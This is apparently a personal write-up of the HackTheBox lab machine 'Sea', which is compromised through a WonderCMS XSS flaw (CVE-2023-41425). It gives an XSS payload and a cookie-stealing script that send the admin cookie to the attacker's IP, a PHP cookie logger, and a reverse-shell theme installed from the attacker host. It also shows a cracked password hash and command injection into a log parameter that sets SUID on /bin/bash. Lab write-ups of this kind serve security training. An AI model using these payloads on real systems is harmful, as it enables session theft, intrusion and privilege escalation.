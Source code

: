 ```yaml
---
layout: post
title: "Sea"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [htb, writeup]
pin: true
math: true
mermaid: true
#image:
 # path: /assets/img/commons/hackthebox.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 # alt: Hackthebox Image
---
```


as always starting with nmap

`sudo nmap -sC -sV -p- -oN sea 10.10.11.28`
![nmap_sea.png]/source/SEA/'Pasted image 20240813000337.png'

nothing just web (Stupid one)

nothing interesting in the website so , let's move to fuzzing

`feroxbuster  --url http://10.129.115.194 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,404

![[Pasted image 20240813000823.png]]

the license page 
```
MIT License

Copyright (c) 2019 turboblack

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:
```

![[Pasted image 20240813001042.png]]

so we are dealing with WondwerCMS

this CVE is interesting since we are on version 3.2.0 (check http://sea.htb/themes/bike/version)
https://github.com/prodigiousMind/CVE-2023-41425 

this script exploit  an xss to steal credential then use this creds to uplaod backdoored files

I will use the same plugins used in this exploit
```bash
wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
```

we need to  change the ==rev.php== file on the zip 

```php
$VERSION = "1.0";
$ip = 'UR OWN IP'; // CHANGE THIS
$port = 1337;
```


then I  will host a web serve 

```bash
php -S 0.0.0.0:80
```

![[Pasted image 20240813003150.png]]

```bash
python3 exploit.py http://sea.htb/loginURL 10.10.14.224 1337
```

we need to find out a way to  send the link to the admin , since the web app is using ==php== let's fuzz for the .php file

```bash
feroxbuster  --url http://10.129.115.194  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -C 500,403,400 -x php 

```
![[Pasted image 20240813003629.png]]

![[Pasted image 20240813023000.png]]

once we fill the form , with the malicious link in the website field

```url
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.224/script.js"></script><form+action="
```

in the ==script.js==
```javascript
new Image().src='http://IP/index.php?c='+document.cookie
```

in the ==index.php==
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


we will get the admin cookie in our web server
![[Pasted image 20240813023404.png]]
changing the cookies , guarantee more privilege in the website , we can now upload plugin

we can install our malicious plugins now , by tampering with the request sent from this button
![[Pasted image 20240813023604.png]]

```HTTP
GET /?installModule=http://IP/main.zip&directoryName=violet&type=themes&token=a5d00073e50332dd0ca6d448d4ccddc9449c7ae27828bb35cee8112d67debd58 HTTP/1.1
```

by visiting http://sea.htb/themes/revshell-main/rev.php

we should get shell on our listener 
![[Pasted image 20240813024341.png]]

this file got my intention
`/var/www/sea/data/database.js`
if we check his content we will find a hash
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",
```

we need to remove the escapers to crack it
```
"password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q",
```

```bash
hashcat -a 0 -m 3200 --show hash                                       
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q:mychemicalromance
```

this password got us  the  user ==amay==

another website is running on the port 8080 
```
amay@sea:~$ netstat -ntlp 
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:56005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

but we need some type of authorization to access it

```bash
amay@sea:~$ curl 127.0.0.1:8080
Unauthorized access
```

I will reuse the password of amay
![[Pasted image 20240813025058.png]]

I will forward  the port 8080 to my machine , so I can see what's going on in this website

```
ssh -L 7000:localhost:8080 amay@sea.htb -N
```
 on http://127.0.0.1:7000/
 ![[Pasted image 20240813025643.png]]

I tried to read files , like ==/root/root.txt== but that didn't work 
![[Pasted image 20240813025715.png]]
so I tried to inject malicious command 

to confirm that , I will ping myself
first listen on the pings
``
```bash
sudo tcpdump -i  tun0 icmp
```

```HTTP
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;ping+-c+1+10.10.14.224&analyze_log=
```

this works
![[Pasted image 20240813030024.png]]

I will run
```
chmod u+s /bin/bash
```

```http
log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68&analyze_log=
```

![[Pasted image 20240813030229.png]]

![[Pasted image 20240813030247.png]]
